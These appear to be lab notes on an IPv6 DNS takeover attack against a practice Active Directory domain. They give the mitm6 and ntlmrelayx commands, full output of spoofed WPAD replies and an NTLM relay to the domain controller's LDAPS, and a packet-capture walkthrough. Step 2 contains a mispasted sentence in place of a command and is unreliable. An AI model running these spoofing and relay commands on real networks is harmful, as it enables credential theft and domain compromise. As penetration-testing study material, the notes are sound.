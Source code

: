 
If mitm6 not yet installed
1. cd /opt/mitm6
2. sudo pip3 install .


How to initiate the attack?

1. Prepare the command `sudo mitm6 -d marvel.local`. Do not yet execute it as we will run ntlmrelayx first.
2. Execute `ntlmrelayx 6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -escalate-user pparker` or `The Domain Computer requested wpad.dat file to the attacker's machine. based from the image, it successfully downloaded the wpad.dat.` - Sets up the relay server and WPAD host, ready to intercept and relay NTLM authentication.

```
└─$ impacket-ntlmrelayx -6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -l lootme
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client fe80::fde3:206f:be61:b3b7
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, attacking target ldaps://192.168.64.250
[*] HTTPD(80): Authenticating against ldaps://192.168.64.250 as MARVEL/PUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, but there are no more targets left!
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, but there are no more targets left!
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409

```
3. Now execute the `sudo mitm6 -d marvel.local`

```
┌──(kali㉿kali)-[~]
└─$ sudo mitm6 -d marvel.local                                                          
[sudo] password for kali: 
Starting mitm6 using the following configuration:
Primary adapter: eth0 [ea:f0:2f:00:11:3a]
IPv4 address: 192.168.64.4
IPv6 address: fe80::e8f0:2fff:fe00:113a
DNS local search domain: marvel.local
DNS allowlist: marvel.local
IPv6 address fe80::913:1 is now assigned to mac=8e:27:0f:ff:34:d1 host=SPIDERMAN.MARVEL.local. ipv4=
Sent spoofed reply for wpad.MARVEL.local. to fe80::8c06:f13e:9fe4:6de1
Sent spoofed reply for wpad.MARVEL.local. to fe80::8c06:f13e:9fe4:6de1
Renew reply sent to fe80::913:1
IPv6 address fe80::192:168:64:220 is now assigned to mac=4e:4f:0d:0b:16:40 host=PUNISHER.MARVEL.local. ipv4=192.168.64.220
Sent spoofed reply for wpad.MARVEL.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.MARVEL.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.marvel.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.marvel.local. to fe80::fde3:206f:be61:b3b7
IPv6 address fe80::192:168:64:220 is now assigned to mac=4e:4f:0d:0b:16:40 host=PUNISHER.MARVEL.local. ipv4=192.168.64.220
Sent spoofed reply for fakewpad.marvel.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for fakewpad.marvel.local. to fe80::fde3:206f:be61:b3b7


```

4. After that,  a loot me file was saved in the /home/kali directory

Capturing, in the wireshark, here is the step by step

1. IPV6 router advertisement - The attacker/kali impersonates will introduce itself as an  IPV6 router
![[Pasted image 20240716203249.png]]
2. DHCPv6 Activity - devices perform DHCPv6 solicitation in response to the new router advertisement. The Kali then offers link local and global address to the domain computer
![[Pasted image 20240716205537.png]]

3. After obtaining DHCPv6 address, it then query for WPAD(Web proxy auto discovery) . AS you see below, the client query for the IPv4 and IPv6 address and the attacker replied its IPv4 and IPV6 address
![[Pasted image 20240716213537.png]]

4. The Domain Computer requested wpad.dat file to the attacker's machine. based from the image, it successfully downloaded the wpad.dat.
![[Pasted image 20240716221027.png]]

5.  The wpad.dat contains java script.

